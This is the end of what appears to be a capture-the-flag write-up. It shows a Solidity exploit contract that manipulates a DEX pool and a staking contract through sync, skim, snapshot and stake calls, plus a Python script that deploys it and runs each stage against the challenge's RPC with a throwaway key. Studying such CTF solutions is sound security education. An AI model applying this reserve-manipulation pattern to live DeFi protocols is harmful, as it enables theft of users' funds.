 ```solidity
        dex.sync();
        IERC20(INR).transfer(address(finance), 262473*1e14);
        finance.withdraw(INR, 0);

        IERC20(INR).transfer(address(dex), 10000e18 + (1 ether - 1e11));
        dex.skim(address(this));
        finance.snapshot();
    }

    function stage4() external {
        // 5. withdraw INR from finance
        dex.sync();
        finance.stake{value: 1.1 ether}(INR);
        IERC20(WETH).transfer(address(dex), setup.WETH_SUPPLIED_BY_LP());
        IERC20(INR).transfer(address(dex), setup.INR_SUPPLIED_BY_LP());
        dex.sync();
        finance.stake{value: 100_000 ether - IERC20(WETH).balanceOf(address(this))}(WETH);
        setup.solve();
    }
}
```

```python
## [...]
setup_addr = "0x33f2D286C37bA672562cA96A97e9047C93a10002"
pv_key = "0x9f177531d167891c3ade8a6b754393750350f941da78feaaeecf1d678dd14891"
rpc_url = "http://rpc.eng.run:8372"
env=os.environ.copy()
env.update({
    "SETUP": setup_addr
})

out, err = create(setup_addr, pv_key, rpc_url, env)
exploit_addr = out.split("Deployed to: ")[1].split("\n")[0]
print(f"Exploit contract deployed to {exploit_addr}")
time.sleep(60);
print("Stage 1")
out, err = cast_send(exploit_addr, "stage1()", pv_key, rpc_url, env)
time.sleep(5)
print("Stage 2")
out, err = cast_send(exploit_addr, "stage2()", pv_key, rpc_url, env)
time.sleep(60)
print("Stage 3")
out, err = cast_send(exploit_addr, "stage3()", pv_key, rpc_url, env)
time.sleep(5)
print("Stage 4")
out, err = cast_send(exploit_addr, "stage4()", pv_key, rpc_url, env)
## [...]
```

Thanks for reading ! I'd like to make this kind of fun challenge next time :D